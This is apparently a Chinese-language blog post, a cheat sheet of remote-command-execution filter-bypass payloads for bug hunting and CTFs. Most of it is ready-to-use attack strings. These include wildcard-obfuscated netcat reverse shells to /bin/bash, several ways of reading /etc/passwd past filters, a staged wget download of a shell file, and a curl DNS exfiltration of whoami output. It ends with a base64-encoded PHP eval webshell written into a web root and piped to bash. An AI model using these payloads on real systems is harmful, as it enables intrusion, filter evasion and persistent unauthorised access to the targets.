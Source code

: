 ```yaml
---
layout: post
title: RCE Bypass (keep updated)
---
```



> # 本位介绍RCE中Bypass技巧，可用在漏洞挖掘及CTF中。

[TOC]

### 命令连接

```bash

` & || | $()

%0a 换行符

%0d 回车符

;  连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx DNS管道解析
```

### some Trick

```bash

1>wget\

1>xxx.com.\

1>com\

1>-O\

1>she\

1>ll.p\

1>p

ls -t>a

sh a

```

`ls -t`是按照时间顺排序

http://2130706433  IP转10进制

http://0x7F000001  IP转16进制

转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

### 通配符

```bash

/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd

\*  代表『 0 个到无穷多个』任意字符

?  代表『一定有一个』任意字符

[ ]  同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』

[ - ]  若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！

[^ ]  若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


### cat flag可转换为：
```bash

cat fla[a-z]

cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*

cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d

```





### 利用历史执行记录来bypass

```bash

root@kali$ cat

root@kali$ fl

root@kali$ ag

root@kali$ history

1.cat

2.fl

3.ag

root@kali$ !1!2!3

flag{ea3y_bypa3s_inj3ct1on}

```





###过滤空格的时候



```bash
cat${IFS}flag

cat$IFS$9flag

<

%09 (需要php环境)

``
```

### 命令终止符

```
%00 %20
```

## 其他绕过
```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c
```

### 写文件

Windows

```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt

生成 hex.txt，机器码对应的内容是 Hallo World!

certutil -decodehex hex.txt bin.txt

也可以base64解码

certutil -decode hex.txt bin.txt
```

Linux
```bash
echo -e "\x61">1.txt
```

将payload加密成base64 例如 `echo '<?php @eval($_REQUEST[c]);?>'>>/var/www/c.php`
```
`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-D|bash`
```